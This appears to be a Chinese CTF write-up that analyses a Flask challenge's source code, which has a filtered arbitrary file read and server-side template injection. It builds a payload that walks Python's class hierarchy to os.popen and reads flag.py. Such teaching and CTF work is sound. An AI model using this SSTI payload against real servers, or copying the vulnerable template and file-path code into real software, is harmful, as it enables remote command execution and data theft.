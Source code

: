 ```python
        template = open('/home/nu11111111l/articles/{}'.format(page)).read()
    except Exception as e:
        template = e
 
    return render_template('article.html', template=template)
 
if __name__ == "__main__":
app.run(host='0.0.0.0',port=80, debug=False)
```

#### 分析源码，确定漏洞利用

分析源码，可以知道：

1.文件夹有2个python文件 flag.py 和密钥文件 key.py。

2.不能直接访问 flag.py，这里任意文件读取过滤了flag关键词。

3.源码存在**SSTI模板注入**

因为代码中有判断传入的session是否含n1code（ 这里可以理解为判断session的身份码），没有的话就创建这个session['n1code']。

然后判断session['n1code']是否为空，为空的的话就令 template（模板）为空，不为空的话就赋值 template 为一段实体编码过的HTML模板，并且**把session['n1code']也带入到模板中渲染（渲染的代码会被执行，这里可以设计命令执行代码 )**。

也就是session中只要有n1code的内容，且不为空，就会被加入template模板中执行。这是只需在其中构造命令执行代码即可。

template解码后如下：

```
template = '''<h1>N1 Page</h1> <div class="row> <div class="col-md-6 col-md-offset-3 center"> Hello : %s, why you don't look at our <a href='/article?name=article'>article</a>? </div> </div> ''' % session['n1code']
```

#### 构造payload

**SSTI模板注入**

一般流程为：找到父类<type 'object'>-->寻找子类-->找关于命令执行或者文件操作的模块。

```
.__class__.__mro__[2].__subclasses__()[71].__init__.__globals__[\'os\']
```

说人话就是通过上面划线的语句，打开python命令执行的模块，这样我们的命令popen(\'cat flag.py\').read()才能被执行。

因此payload如下：

```
{'n1code': '{{\'\'.__class__.__mro__[2].__subclasses__()[71].__init__.__globals__[\'os\'].popen(\'cat flag.py\').read()}}'}
```

> ##### python flask框架中的一些魔术方法
>
> `__class__` 返回类型所属的对象
>
> `__mro__` 返回一个包含对象所继承的基类元组，方法在解析时按照元组的顺序解析。
>
> `__base__` 返回该对象所继承的基类 //
>
> `__base__`和`__mro__`都是用来寻找基类的 `__subclasses__` 每个新类都保留了子类的引用，这个方法返回一个类中仍然可用的的引用的列表
>
> `__init__` 类的初始化方法 `__globals__` 对包含函数全局变量的字典的引用
